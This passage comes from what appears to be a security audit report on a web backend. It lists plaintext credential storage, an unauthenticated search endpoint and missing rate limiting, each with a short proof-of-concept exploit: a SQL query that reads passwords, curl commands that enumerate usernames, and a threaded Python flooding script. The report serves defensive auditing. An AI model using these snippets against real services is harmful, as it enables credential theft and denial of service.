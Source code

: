 ### Exploit:
```python
# Query database directly (if attacker gains DB access)
SELECT email, password FROM compromised_credentials;
# Returns rows like: | user@example.com | mysecretpassword123 |
```

### Detection**: Aikido detects plaintext sensitive data storage.

---

## 3. Unauthenticated Endpoint (CWE-306)

**Severity**: HIGH  
**Location**: `backend/app.py:45` - `/api/gosearch`  
**Vulnerability Type**: Missing Authentication  

### Code:
```python
@app.get("/api/gosearch")
async def gosearch_proxy(username: str):
    # ✗ NO authentication check - anyone can call this
    gosearch_url = os.getenv("GOSEARCH_URL", "http://gosearch:8081/search")
    # ... execute gosearch for any username
```

### Exploit:
```bash
# Attacker can enumerate all usernames without authentication
curl http://localhost:8000/api/gosearch?username=admin
curl http://localhost:8000/api/gosearch?username=user1
curl http://localhost:8000/api/gosearch?username=root
```

### Detection**: Aikido flags endpoints missing authentication/authorization.

---

## 4. No Rate Limiting (CWE-770)

**Severity**: MEDIUM  
**Location**: All endpoints in `backend/app.py`  
**Vulnerability Type**: Denial of Service (DoS)  

### Exploit:
```python
import requests
import threading

# Brute-force endpoint with no rate limiting
def spam_endpoint():
    for i in range(100000):
        requests.get("http://localhost:8000/api/gosearch?username=attacker")
        
threads = [threading.Thread(target=spam_endpoint) for _ in range(10)]
for t in threads:
    t.start()
# Server gets overwhelmed, legitimate users can't access it
```
